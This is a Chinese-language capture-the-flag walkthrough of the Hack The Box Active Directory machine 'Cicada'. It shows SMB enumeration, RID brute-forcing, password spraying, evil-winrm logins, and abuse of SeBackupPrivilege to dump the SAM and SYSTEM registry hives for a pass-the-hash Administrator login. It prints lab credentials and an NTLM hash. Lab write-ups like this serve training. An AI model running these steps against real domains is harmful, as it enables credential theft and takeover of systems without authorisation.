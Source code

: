 ```yaml
---
description: AD枚举 / SeBackupPrivilege /
---
```


# ✔️ Cicada

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cicada 10.129.5.101 --open
```

<figure><img src="../../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息和开放端口，判断该机器应该是域控，先将域名添加进/hosts文件中：

<figure><img src="../../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

* 尝试使用匿名登录SMB服务，获得了一些SMB共享目录：

<figure><img src="../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录后，发现只有/HR目录可以进入，查看后发现一个名为Notice from HR.txt的文本文件，把它下载到本地：

```bash
smbclient \\\\10.129.5.101\\HR
dir
mget *
```

<figure><img src="../../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

* 查看Notice from HR.txt文件内容得知是一封录用通知，里面包含了一个新入职员工用户的默认密码：<mark style="color:red;">**Cicada$M6Corpb\*@Lp#nZp!8**</mark>

<figure><img src="../../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

* 使用enum4linux进行枚举，没什么收获：

```bash
enum4linux 10.129.5.101
```

<figure><img src="../../.gitbook/assets/9 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已经获取到了一个有效密码，但是还没有有效用户名，使用nxc进行暴破得到一串用户名：

```bash
nxc smb 10.129.5.101 -u "guest" -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 把这些用户名复制下来保存为一个username.txt文件，先用kerbrute跑一下有8个有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.5.101 -d cicada.htb username.txt
```

<figure><img src="../../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 然后再使用nxc和用户名列表，还有之前收集到的默认密码，进行暴破：

```bash
nxc smb 10.129.5.101 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><img src="../../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 已获取到了一个有效凭证：<mark style="color:red;">**michael.wrightson :Cicada$M6Corpb\*@Lp#nZp!8**</mark>
* 通过用户michael查询目标系统上更多的用户信息，找到了用户david的密码：

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

<figure><img src="../../.gitbook/assets/9 (29).png" alt=""><figcaption></figcaption></figure>

* 此时又得到了一个新的有效凭证：`david.orelious ：aRt$Lp#7t*VQ!3`，利用该凭证登录share共享目录：

```bash
smbclient -L //10.10.11.35 -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/10 (31).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录，在\DEV目录中发现一个powershell脚本文件：**Backup\_script.ps1**

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/11 (28).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本发现另一个新的有效凭证：`emily.oscars ：Q!3@Lp#M6b*7t*Vt`

<figure><img src="../../.gitbook/assets/12 (27).png" alt=""><figcaption></figcaption></figure>

* 利用emily这个凭证使用evil-winrm进行登录，get shell：

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><img src="../../.gitbook/assets/13 (28).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
upload winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (25).png" alt=""><figcaption></figcaption></figure>

* 同时可以简单的手动枚举一下，比如当前账户的权限有哪些：

```bash
whoami /priv
```

<figure><img src="../../.gitbook/assets/15 (24).png" alt=""><figcaption></figcaption></figure>

* 发现当前账户有备份操作的权限，这意味着可以利用该特权下载sam.hive文件和system.hive文件，从中提取Administrator的密码哈希，再利用它进行登录

### 漏洞利用

* 创建一个temp目录：

```bash
mkdir C:\temp
```

<figure><img src="../../.gitbook/assets/16 (23).png" alt=""><figcaption></figcaption></figure>

* 将目标系统的sam文件和system文件存到当前的temp目录中：

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (21).png" alt=""><figcaption></figcaption></figure>

* 将这两个文件下载到Kali本地

### ROOT

* 使用这两个文件提取凭证：

```bash
pypykatz registry -sam sam.hive system.hive -o secrets.txt
```

<figure><img src="../../.gitbook/assets/18 (20).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator的密码哈希：

<figure><img src="../../.gitbook/assets/19 (20).png" alt=""><figcaption></figcaption></figure>

* 利于获取到的哈希进行登录，获得admin权限的shell：

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../.gitbook/assets/20 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (15).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}

{% endhint %}
